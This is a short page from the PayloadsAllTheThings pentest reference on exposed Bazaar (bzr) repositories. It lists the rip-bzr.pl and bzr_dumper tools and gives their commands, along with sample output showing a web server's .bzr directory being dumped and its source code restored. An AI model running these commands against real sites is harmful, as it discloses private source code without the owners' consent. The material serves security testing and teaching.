

repository: swisskyrepo/PayloadsAllTheThings · page: Insecure Source Code Management/Bazaar/index.html · generator: mkdocs

# Bazaar

> Bazaar  (also known as bzr ) is a free, distributed version control system (DVCS) that helps you track project history over time and collaborate seamlessly with others. Developed by Canonical, Bazaar emphasizes ease of use, a flexible workflow, and rich features to cater to both individual developers and large teams.

## Summary

* [Tools](#tools)
    * [rip-bzr.pl](#rip-bzrpl)
    * [bzr_dumper](#bzr_dumper)
* [References](#references)

## Tools

### rip-bzr.pl

* [kost/dvcs-ripper/rip-bzr.pl](https://raw.githubusercontent.com/kost/dvcs-ripper/master/rip-bzr.pl)

    ```powershell
    docker run --rm -it -v /path/to/host/work:/work:rw k0st/alpine-dvcs-ripper rip-bzr.pl -v -u
    ```

### bzr_dumper

* [SeahunOh/bzr_dumper](https://github.com/SeahunOh/bzr_dumper)

```powershell
python3 dumper.py -u "http://127.0.0.1:5000/" -o source
Created a standalone tree (format: 2a)
[!] Target : http://127.0.0.1:5000/
[+] Start.
[+] GET repository/pack-names
[+] GET README
[+] GET checkout/dirstate
[+] GET checkout/views
[+] GET branch/branch.conf
[+] GET branch/format
[+] GET branch/last-revision
[+] GET branch/tag
[+] GET b'154411f0f33adc3ff8cfb3d34209cbd1'
[*] Finish
```

```powershell
bzr revert
 N  application.py
 N  database.py
 N  static/
```
